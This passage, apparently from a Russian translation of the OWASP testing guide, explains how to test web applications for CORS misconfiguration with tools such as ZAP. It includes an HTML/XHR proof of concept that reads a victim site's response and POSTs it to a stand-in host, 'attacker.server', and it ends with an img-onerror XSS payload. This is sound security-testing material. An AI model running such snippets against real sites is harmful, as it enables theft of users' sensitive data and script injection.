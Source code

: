 ## Как тестировать

Инструмент, например, [ZAP](https://www.zaproxy.org), даёт возможность перехватывать заголовки HTTP, показывающие как работает CORS. Тестировщики должны обратить особое внимание на заголовок `origin`, чтобы узнать, какие домены разрешены. Кроме того, в некоторых случаях требуется ручная проверка JavaScript, чтобы определить, уязвим ли он для инъекции кода из-за некорректной обработки введённых пользователем данных.

### Неправильная конфигурация CORS

Указание подстановочного знака в заголовке `Access-Control-Allow-Origin header` (т.е. `Access-Control-Allow-Origin: *`) небезопасно, если ответ содержит конфиденциальную информацию. Хотя его нельзя использовать одновременно с `Access-Control-Allow-Credentials: true`, это может быть опасно, если контроль доступа обеспечивается без аутентификации, исключительно за счёт правил межсетевого экрана или IP-адресов источника.

#### Произвольный Access-Control-Allow-Origin

Тестировщик может проверить, присутствует ли `Access-Control-Allow-Origin: *` в сообщениях HTTP-ответов.

```http
HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 4
Content-Type: application/xml

[тело ответа]
```

Если ответ содержит чувствительные данные, злоумышленник может украсть их с помощью XHR:

```html
<html>
    <head></head>
    <body>
        <script>
            var xhr = new XMLHttpRequest();
            xhr.onreadystatechange = function() {
                if (this.readyState == 4 && this.status == 200) {
                    var xhr2 = new XMLHttpRequest();
                    // attacker.server: attacker listener чтобы украсть ответ
                    xhr2.open("POST", "http://attacker.server", true);
                    xhr2.send(xhr.responseText);
                }
            };
            // victim.site: vulnerable server с заголовком `Access-Control-Allow-Origin: *` 
            xhr.open("GET", "http://victim.site", true);
            xhr.send();
        </script>
    </body>
</html>
```


[Контент, вставленный с attacker.bar]: <img src="#" onerror="alert('Domain: '+document.domain)">